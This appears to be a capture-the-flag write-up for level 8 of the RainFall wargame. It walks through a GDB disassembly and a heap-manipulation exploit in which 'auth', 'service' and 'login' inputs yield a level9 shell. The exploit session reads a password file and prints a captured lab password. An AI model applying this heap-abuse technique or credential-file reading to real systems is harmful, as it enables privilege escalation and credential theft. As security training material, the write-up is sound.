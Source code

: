 # Level8

## Exploring the binary
```shell
level8@RainFall:~$ ./level8
(nil), (nil)
phantom society
(nil), (nil)
123 456
(nil), (nil)
```
It appears that the binary continuously accepts two strings from standard input within an infinite loop, suggesting that there might be a specific combination of these strings that grants access to the next level.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	push   %edi
   0x08048568 <+4>:	push   %esi
   0x08048569 <+5>:	and    $0xfffffff0,%esp
   0x0804856c <+8>:	sub    $0xa0,%esp
   0x08048572 <+14>:	jmp    0x8048575 <main+17>
   0x08048574 <+16>:	nop
   0x08048575 <+17>:	mov    0x8049ab0,%ecx
   0x0804857b <+23>:	mov    0x8049aac,%edx
   0x08048581 <+29>:	mov    $0x8048810,%eax
   0x08048586 <+34>:	mov    %ecx,0x8(%esp)
   0x0804858a <+38>:	mov    %edx,0x4(%esp)
   0x0804858e <+42>:	mov    %eax,(%esp)
   0x08048591 <+45>:	call   0x8048410 <printf@plt>
   0x08048596 <+50>:	mov    0x8049a80,%eax
   0x0804859b <+55>:	mov    %eax,0x8(%esp)
   0x0804859f <+59>:	movl   $0x80,0x4(%esp)
   0x080485a7 <+67>:	lea    0x20(%esp),%eax
   0x080485ab <+71>:	mov    %eax,(%esp)
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:	test   %eax,%eax
   0x080485b5 <+81>:	je     0x804872c <main+456>
   0x080485bb <+87>:	lea    0x20(%esp),%eax
   0x080485bf <+91>:	mov    %eax,%edx
   0x080485c1 <+93>:	mov    $0x8048819,%eax
   0x080485c6 <+98>:	mov    $0x5,%ecx
   0x080485cb <+103>:	mov    %edx,%esi
   0x080485cd <+105>:	mov    %eax,%edi
   0x080485cf <+107>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:	seta   %dl
   0x080485d4 <+112>:	setb   %al
   0x080485d7 <+115>:	mov    %edx,%ecx
   0x080485d9 <+117>:	sub    %al,%cl
   0x080485db <+119>:	mov    %ecx,%eax
   0x080485dd <+121>:	movsbl %al,%eax
   0x080485e0 <+124>:	test   %eax,%eax
   0x080485e2 <+126>:	jne    0x8048642 <main+222>
   0x080485e4 <+128>:	movl   $0x4,(%esp)
   0x080485eb <+135>:	call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:	mov    %eax,0x8049aac
   0x080485f5 <+145>:	mov    0x8049aac,%eax
   0x080485fa <+150>:	movl   $0x0,(%eax)
   0x08048600 <+156>:	lea    0x20(%esp),%eax
   0x08048604 <+160>:	add    $0x5,%eax
   0x08048607 <+163>:	movl   $0xffffffff,0x1c(%esp)
   0x0804860f <+171>:	mov    %eax,%edx
   0x08048611 <+173>:	mov    $0x0,%eax
   0x08048616 <+178>:	mov    0x1c(%esp),%ecx
   0x0804861a <+182>:	mov    %edx,%edi
   0x0804861c <+184>:	repnz scas %es:(%edi),%al
   0x0804861e <+186>:	mov    %ecx,%eax
   0x08048620 <+188>:	not    %eax
   0x08048622 <+190>:	sub    $0x1,%eax
   0x08048625 <+193>:	cmp    $0x1e,%eax
   0x08048628 <+196>:	ja     0x8048642 <main+222>
   0x0804862a <+198>:	lea    0x20(%esp),%eax
   0x0804862e <+202>:	lea    0x5(%eax),%edx
   0x08048631 <+205>:	mov    0x8049aac,%eax
   0x08048636 <+210>:	mov    %edx,0x4(%esp)
   0x0804863a <+214>:	mov    %eax,(%esp)
   0x0804863d <+217>:	call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:	lea    0x20(%esp),%eax
   0x08048646 <+226>:	mov    %eax,%edx
   0x08048648 <+228>:	mov    $0x804881f,%eax
   0x0804864d <+233>:	mov    $0x5,%ecx
   0x08048652 <+238>:	mov    %edx,%esi
   0x08048654 <+240>:	mov    %eax,%edi
   0x08048656 <+242>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x08048658 <+244>:	seta   %dl
   0x0804865b <+247>:	setb   %al
   0x0804865e <+250>:	mov    %edx,%ecx
   0x08048660 <+252>:	sub    %al,%cl
   0x08048662 <+254>:	mov    %ecx,%eax
   0x08048664 <+256>:	movsbl %al,%eax
   0x08048667 <+259>:	test   %eax,%eax
   0x08048669 <+261>:	jne    0x8048678 <main+276>
   0x0804866b <+263>:	mov    0x8049aac,%eax
   0x08048670 <+268>:	mov    %eax,(%esp)
   0x08048673 <+271>:	call   0x8048420 <free@plt>
   0x08048678 <+276>:	lea    0x20(%esp),%eax
   0x0804867c <+280>:	mov    %eax,%edx
   0x0804867e <+282>:	mov    $0x8048825,%eax
   0x08048683 <+287>:	mov    $0x6,%ecx
   0x08048688 <+292>:	mov    %edx,%esi
   0x0804868a <+294>:	mov    %eax,%edi
   0x0804868c <+296>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804868e <+298>:	seta   %dl
   0x08048691 <+301>:	setb   %al
   0x08048694 <+304>:	mov    %edx,%ecx
   0x08048696 <+306>:	sub    %al,%cl
   0x08048698 <+308>:	mov    %ecx,%eax
   0x0804869a <+310>:	movsbl %al,%eax
   0x0804869d <+313>:	test   %eax,%eax
   0x0804869f <+315>:	jne    0x80486b5 <main+337>
   0x080486a1 <+317>:	lea    0x20(%esp),%eax
   0x080486a5 <+321>:	add    $0x7,%eax
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    %eax,0x8049ab0
   0x080486b5 <+337>:	lea    0x20(%esp),%eax
   0x080486b9 <+341>:	mov    %eax,%edx
   0x080486bb <+343>:	mov    $0x804882d,%eax
   0x080486c0 <+348>:	mov    $0x5,%ecx
   0x080486c5 <+353>:	mov    %edx,%esi
   0x080486c7 <+355>:	mov    %eax,%edi
   0x080486c9 <+357>:	repz cmpsb %es:(%edi),%ds:(%esi)
   0x080486cb <+359>:	seta   %dl
   0x080486ce <+362>:	setb   %al
   0x080486d1 <+365>:	mov    %edx,%ecx
   0x080486d3 <+367>:	sub    %al,%cl
   0x080486d5 <+369>:	mov    %ecx,%eax
   0x080486d7 <+371>:	movsbl %al,%eax
   0x080486da <+374>:	test   %eax,%eax
   0x080486dc <+376>:	jne    0x8048574 <main+16>
   0x080486e2 <+382>:	mov    0x8049aac,%eax
   0x080486e7 <+387>:	mov    0x20(%eax),%eax
   0x080486ea <+390>:	test   %eax,%eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	movl   $0x8048833,(%esp)
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>
   0x080486ff <+411>:	mov    0x8049aa0,%eax
   0x08048704 <+416>:	mov    %eax,%edx
   0x08048706 <+418>:	mov    $0x804883b,%eax
   0x0804870b <+423>:	mov    %edx,0xc(%esp)
   0x0804870f <+427>:	movl   $0xa,0x8(%esp)
   0x08048717 <+435>:	movl   $0x1,0x4(%esp)
   0x0804871f <+443>:	mov    %eax,(%esp)
   0x08048722 <+446>:	call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:	jmp    0x8048574 <main+16>
   0x0804872c <+456>:	nop
   0x0804872d <+457>:	mov    $0x0,%eax
   0x08048732 <+462>:	lea    -0x8(%ebp),%esp
   0x08048735 <+465>:	pop    %esi
   0x08048736 <+466>:	pop    %edi
   0x08048737 <+467>:	pop    %ebp
   0x08048738 <+468>:	ret
End of assembler dump.
```
We observe that <code>main()</code> employs various functions, ranging from <code>fgets()</code> to <code>system()</code>. After the user inputs data, the buffer read is compared to four different strings - the correct combination of data evokes <code>/bin/bash</code> with <code>system()</code>. Each of these reference strings is loaded into <code>eax</code> (and consequently a different register), allowing us to inspect its contents:

```shell
(gdb) x/s 0x8048819
0x8048819:	 "auth "
(gdb) x/s 0x804881f
0x804881f:	 "reset"
(gdb) x/s 0x8048825
0x8048825:	 "service"
(gdb) x/s 0x804882d
0x804882d:	 "login"
```
We observe that two of the strings <code>auth</code> and <code>service</code> actually represent global variables, which undergo modification during runtime.
```shell
All defined variables:

Non-debugging symbols:
0x08048808  _fp_hw
0x0804880c  _IO_stdin_used
0x08048948  __FRAME_END__
0x0804994c  __CTOR_LIST__
0x0804994c  __init_array_end
0x0804994c  __init_array_start
0x08049950  __CTOR_END__
0x08049954  __DTOR_LIST__
0x08049958  __DTOR_END__
0x0804995c  __JCR_END__
0x0804995c  __JCR_LIST__
0x08049960  _DYNAMIC
0x08049a2c  _GLOBAL_OFFSET_TABLE_
0x08049a60  __data_start
0x08049a60  data_start
0x08049a64  __dso_handle
0x08049a80  stdin@@GLIBC_2.0
0x08049aa0  stdout@@GLIBC_2.0
0x08049aa4  completed.6159
0x08049aa8  dtor_idx.6161
0x08049aac  auth
0x08049ab0  service
```
## 4 commands

- <code>auth</code>: Allocates 4 bytes for the <code>auth</code> variable and uses <code>strcpy</code> to copy up to 32 bytes (0x20) into it.
- <code>reset</code>: Frees the memory allocated for the auth variable.
- <code>service</code>: Uses <code>strdup</code> to duplicate the remaining input and stores it in the <code>service</code> variable.
- <code>login</code>: Verifies if the 32nd character in <code>auth</code> is set.

It looks simple - we just enter "auth" at the beginning and then just fill the buffer.

## Exploit
``` shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service ffffffffffffffffffffffff
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
